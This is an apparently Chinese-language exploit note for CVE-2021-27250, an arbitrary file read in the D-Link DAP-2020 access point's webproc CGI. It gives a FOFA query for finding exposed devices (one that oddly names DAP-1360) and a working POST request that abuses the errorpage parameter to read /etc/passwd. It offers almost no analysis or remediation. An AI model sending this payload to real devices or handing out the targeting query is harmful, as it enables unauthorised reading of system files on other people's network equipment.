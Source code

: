 # D-LINK DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## FOFA

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面

![image-20220715110127290](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151101366.png)

验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![image-20220715110059377](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151100465.png)
